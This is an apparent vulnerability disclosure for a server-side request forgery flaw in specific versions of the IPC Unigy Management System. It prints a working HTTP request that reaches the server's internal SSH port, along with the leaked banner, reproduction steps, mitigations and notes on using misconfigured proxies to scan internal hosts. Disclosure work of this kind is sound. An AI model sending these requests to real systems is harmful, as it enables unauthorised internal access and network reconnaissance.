


### Vulnerability Report: SSRF in IPC Unigy™ Management System

---

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.

#### Technical Details

##### Exploitation Request

Below is an example of an HTTP request that exploits the SSRF vulnerability:

```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:



#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:



### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Suggested Mitigations

To mitigate this vulnerability, it is recommended to:

- Implement strict validation and sanitization of user inputs.
- Restrict the destinations allowed for requests made by the server.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
